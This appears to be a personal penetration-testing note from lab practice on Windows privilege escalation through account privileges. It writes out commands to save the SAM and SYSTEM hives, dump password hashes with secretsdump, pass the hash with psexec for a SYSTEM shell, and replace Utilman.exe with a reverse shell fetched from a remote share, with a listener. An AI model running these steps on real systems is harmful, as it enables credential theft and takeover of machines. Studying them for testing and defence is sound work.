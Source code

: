 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

- Rights of an account to perform specific tasks
- Can be checked with:
```powershell
whoami /priv 
```
- List of all permission can be found [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)

### SeBackup/SeRestore
[SeBackup/SeRestore](Privileges.md#SeBackup/SeRestore)
- SYSTEM and SAM hives can be backed up using : 
```powershell
# backup SYSTEM
reg save HKLM\SYSTEM C:\User\THMBackup\system.hive

# backup SAM
reg save HKLM\SAM C:\User\THMBackup\sam.hive
```
- These files can be used to extract hashes of users password using impacket's secretsdump [secretsdump.py](TechLexicon/Penetration%20Testing/Reference/Tools/Impacket.md#secretsdump.py)
```bash
# Dump the local account hashes using system.hive and sam.hive
secretsdump.py -system system.hive -sam sam.hive LOCAL
```
- Administrator hashes can be used to perform pass the hash attack to gain system shell.
```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.112.124

# We get shell as system.
C:\Windows\System32>
```

### SeTakeOwnership
[SeTakeOwnership](Privileges.md#SeTakeOwnership)
- `utilman.exe` is a service tha provides ease of access setting at windows login and runs with SYSTEM privileges.
- With `SeTakeOwnership` , we can take ownership of the `utilman.exe` executable and replace it with cmd or a reverse shell.
```powershell
# Take ownership of the utilman executable
takeown /f C:\Windows\System32\Utilman.exe

# Give yourself full permission to the executable
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

# Overwrite the executable with reverse shell
copy \\<ip>\public\reverse Utilman.exe

# running a listener
nv -nvlp 9999
# After locking the computer and clicking on ease of access button, we get a reverse shell.
```
### SeImpersonate


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

